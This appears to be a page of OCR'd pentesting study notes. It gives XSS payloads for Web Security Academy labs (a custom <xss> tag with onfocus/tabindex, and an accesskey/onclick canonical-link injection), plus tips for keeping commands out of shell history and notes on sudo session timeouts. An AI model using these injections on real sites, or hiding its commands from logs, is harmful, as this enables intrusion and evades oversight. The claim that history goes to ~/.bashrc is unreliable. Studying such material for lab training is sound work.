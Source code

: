 `https://0a3b008003696505c0a44a0300ca00f2.web-security-academy.net/?search=%3Cxss+id%3D%22x2467%22+onfocus%3Dalert(1)+tabindex%3D1%3E#x2467`

#### 2.9.1.2	DESCRIPTION

- Custom tag is `<xss>`
- Set custom id of "x2467". This will allow us to focus on the element later with #
- Set payload within onfocus attribute
- Set tabindex attribute in order for element to be focusable [33]
- In URL, focus on the new element with` #<id>`

## 2.10	XSS VIA CANONICAL LINK

### 2.10.1	[34]

#### 2.10.1.1	EXAMPLE PAYLOAD

`'accesskey='x'onclick='alert(1)`

`https://your-lab-id.web-security-academy.net/?'accesskey='x'onclick='alert(1)`

- Execute via CTRL+ALT+X

# 3	COMMAND LINE KUNG FU

## 3.1	COMMAND HISTORY

### 3.1.1	-
- Commands entered in terminal are tracked using HISTFILE environment variable and written to ~/.bashrc when user logs off.
### 3.1.2	-
- Prevent commands being recorded by prepending with a space. Alternatively, use 'set +o history' and 'set -o history'

## 3.2	SUDO

### 3.2.1	TIMEOUT

- By default, set to 5 or 15 minutes based on OS
- Session timeouts tracked using file records. Often at `/run/sudo/ts/<USERNAME>`

### 3.2.2	Sessions

- By default, sudo honors session segregation. You would have to authenticate for two separate windows.
- tty_tickets flag controls this

# 4	DESERIALIZATION ATTACKS
